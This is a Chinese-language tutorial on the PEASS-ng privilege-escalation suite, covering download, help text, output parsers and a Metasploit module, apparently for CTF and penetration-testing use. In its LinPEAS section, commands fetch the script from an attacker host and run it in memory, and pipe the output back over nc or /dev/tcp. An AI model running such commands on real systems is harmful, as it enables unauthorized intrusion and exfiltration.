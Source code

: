 <center>Peass-ng提权</center>





[toc]









## Peass-ng提权

> PEASS - 权限提升超棒脚本套件 (带颜色)
>
> 在这里您可以找到**适用于 Windows、Linux/Unix\* 和 MacOS 的权限提升工具**。[github](https://github.com/peass-ng/PEASS-ng)





### 1. 下载

> [release](https://github.com/peass-ng/PEASS-ng/releases)
>
> [ddosi](https://www.ddosi.org/peass-ng/)

```shell
# 源码
git clone https://github.com/peass-ng/PEASS-ng.git
```







### 1. WinPEAS

> **Win**dows **P**rivilege **E**scalation **A**wesome **S**cript 。
>
> 查看windows很多很多信息。

```shell
winPEASx64.exe

winPEASx64.exe -h

  [*] WinPEAS是一个二进制文件，它列举了本地升级特权的可能路径
        quiet                不要打印横幅
        notcolor             不要使用ansi颜色(全白)
        domain               列举域信息
        systeminfo           搜索系统信息
        userinfo             搜索用户信息
        processinfo          搜索处理信息
        servicesinfo         搜索服务信息
        applicationsinfo     搜索已安装应用程序信息
        networkinfo          搜索网络信息
        windowscreds         搜索windows的凭证
        browserinfo          搜索浏览器信息
        filesinfo            搜索可以包含凭据的通用文件
        fileanalysis         搜索可能包含凭据的特定文件
        eventsinfo           显示感兴趣的事件信息
        wait                 在两次检查之间等待用户输入
        debug                显示调试信息-内存使用，方法执行时间
        log[=logfile]        将所有输出记录到定义为logfile的文件中，如果没有指定，则记录到"out.txt"

        额外的检查(慢):
        -lolbas              运行额外的LOLBAS检查
        -linpeas=[url]       运行额外的linpeasen.sh检查默认的WSL分发，可选地提供自定义linpeasen.sh URL(默认: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
```

```shell
winPEASx64.exe log=ddosi.txt
```







### 2. LinPEAS

> **LinPEAS 是一个脚本，用于搜索在 Linux/Unix\*/MacOS 主机上提升权限的可能路径。**
>
> 此脚本的目标是搜索可能的**权限提升路径**（在 Debian、CentOS、FreeBSD、OpenBSD 和 MacOS 中测试）。
>
> [github](https://github.com/peass-ng/PEASS-ng/releases/download/20241201-e3889b61/linpeas.sh)
>
> **这个脚本没有任何依赖。**
>
> mac: [releases](https://github.com/peass-ng/PEASS-ng/releases/tag/20241201-e3889b61)

```shell
./linpeas.sh -h

枚举和搜索特权升级向量。
该工具将枚举并搜索主机内部可能的错误配置(已知的vulns、用户、进程和文件权限、特殊文件权限、可读/可写文件、暴力破解其他用户(top1000pwds)、密码……)，并用颜色突出显示可能的错误配置。
      -h 显示此帮助消息
      -q 不显示横幅
      -e 执行额外的枚举
      -s 超快(不检查一些耗时的检查)-潜行模式
      -a 所有检查(1分钟的进程和su)——噪声模式，主要用于CTFs
      -w 在大块检查之间等待执行
      -N 不要使用颜色
      -D 调试模式
      -P 指定用于运行'sudo -l'和通过'su'强制其他用户帐户的密码
      -o 只执行选定的检查(system_information、container、procs_crons_timers_srvcs_sockets、network_information、users_information、software_information、interesting_files)。选择逗号分隔的列表。
      -L 强制linpeas执行。
      -M 强制macpeas执行。
      -d <ip netmask="">使用fping或ping发现主机。</ip>例: -d 192.168.0.1/24
      -p <PORT(s)> -d <IP/NETMASK> 发现寻找TCP开放端口的主机(通过nc)。默认端口22、80,443,445、3389和您指定的另一个端口将被扫描(如果您不想添加更多端口，请选择22)。您也可以添加端口列表。例如:-d 192.168.0.1/24 -p 53,139
      -i <IP> [-p <PORT(s)>] 使用nc扫描IP。默认情况下(没有-p)，将扫描nmap的top1000，但您也可以选择一个端口列表。例如:-i 127.0.0.1 -p 53,80,443,8000,8080
      -t 自动网络扫描(主机发现和端口扫描)-此选项写入文件
         注意，如果指定一些网络扫描(options -d/-p/-i，但NOT -t)，将不会执行PE检查

```

```shell
# 上传到靶机

# python3 
python3 -m http.server 8000
# python2
sudo python -m SimpleHTTPServer 8000

curl IP/linpeas.sh | sh # 靶机

# 没有curl
sudo nc -q 5 -lvnp 8000 < linpeas.sh
cat < /dev/tcp/IP/8000 | sh # 靶机

# 从内存中执行并输出发送回主机
nc -lvnp 9002 | tee linpeas.out #主机
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #受害者
```

> 输出到文件

```shell
./linpeas.sh > a.txt
```





### 3. parsePEASS

> parsePEASS是PEASS-ng 的解析器和转换器,使用 PEASS_ng 内置解析器解析原始 linpeas\winpeas 输出文件并将其转换为可读 HTML 或 PDF 格式的 Bash 脚本。
>
> [github](https://github.com/peass-ng/PEASS-ng/tree/master/parsers)
>
> 先转json再转pdf和html

```shell
python3 peas2json.py </path/to/executed_peass.out> </path/to/peass.json>
python3 json2pdf.py </path/to/peass.json> </path/to/peass.pdf>
python3 json2html.py </path/to/peass.json> </path/to/peass.html>
```







### 4. PEASS metasploit模块

> 您可以使用此模块**从 metasploit 中获得的 Meterpreter 或 shell 会话自动执行 PEASS 脚本**。
>
> [github](https://github.com/peass-ng/PEASS-ng/tree/master/metasploit)

```shell
sudo wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/metasploit/peass.rb -O /usr/share/metasploit-framework/modules/post/multi/gather/peass.rb
```

> 使用

```shell
use post/multi/gather/peass
```

![image-20241203203802791](./assets/image-20241203203802791.png)

